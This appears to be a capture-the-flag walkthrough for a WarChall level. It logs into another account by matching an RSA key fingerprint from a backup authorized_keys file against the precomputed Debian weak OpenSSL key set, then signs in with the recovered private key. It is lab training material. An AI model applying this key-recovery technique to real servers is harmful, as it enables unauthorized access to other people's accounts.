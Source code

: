 ## Level 08 - SSH... Z is sleeping

- SSH into the server.
 ```bash
ssh yourusername@warchall.net -p 19198
```

- Navigate to the level 08 directory.
```bash
cd /home/level/08_sshz
```
- List all files
```bash
ls -al #We can see that all the files belong to level08
```
- The authorized_keys.backup file contains a 2048-bit RSA key. Use the following commands to check the fingerprints:
```bash
ssh-keygen -lf /home/level/08_sshz/backups/authorized_keys.backup  # SHA256
ssh-keygen -l -E md5 -f /home/level/08_sshz/backups/authorized_keys.backup  # MD5
```
- Download the Debian SSH RSA 2048 x86 tar file from [this link](http://digitaloffense.net/tools/debian-openssl/).
- On Windows, open PowerShell as an administrator
- Use SCP to copy the private key to the server:
```bash
scp -P 19198 /path/to/2bcd07a701e94a0474d77ee4d6d0f806-23669 user@warchall.net:~/
```
- Set the appropriate private key permissions on the server:
```bash
chmod 600 ~/2bcd07a701e94a0474d77ee4d6d0f806-23669
```
- SSH into the server as level08 using the private key:
```bash
ssh -i ~/2bcd07a701e94a0474d77ee4d6d0f806-23669 level08@warchall.net -p 19198
```
